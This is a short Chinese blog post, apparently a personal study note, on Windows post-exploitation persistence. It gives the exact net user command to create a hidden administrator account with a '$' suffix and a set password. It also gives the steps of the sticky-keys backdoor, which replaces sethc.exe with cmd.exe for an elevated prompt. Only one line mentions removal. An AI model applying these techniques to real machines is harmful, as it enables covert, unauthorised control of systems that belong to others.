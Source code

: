 ```yaml
---
layout: post
title: "后渗透之权限维持学习"
subtitle: "后渗透之权限维持学习"
date: 2019-08-13
author: ppbibo
category: APT攻击
finished: true
---
```

[TOC]

**PS：**后渗透之权限维持学习&&总结



## 0x1 匿名用户

```bash
net user administrator$ woaijiushi /add && net localgroup administrators administrator$ /add
```

PS：通过在用户后面添加$符号的形式将用户达到隐藏的效果。

*可以通过注册表或直接用户管理删除隐藏的用户。*



## 0x2 Shift 后门

1. 将 `C:\WINDOWS\system32\dllcache\sethc.exe` 删除，这个文件夹中放着缓存，如果不删除就会自动变回去。
2. 删除 `C:\WINDOWS\system32\` 下的 sethc.exe 文件。
3. 重命名  `C:\WINDOWS\system32\`  下的 cmd.exe 为 sethc.exe 。
4. 按下 5下 shift 即可弹出管理权限的 DOS 窗口。

![tiquan0](/static/img/weiquan0.png)
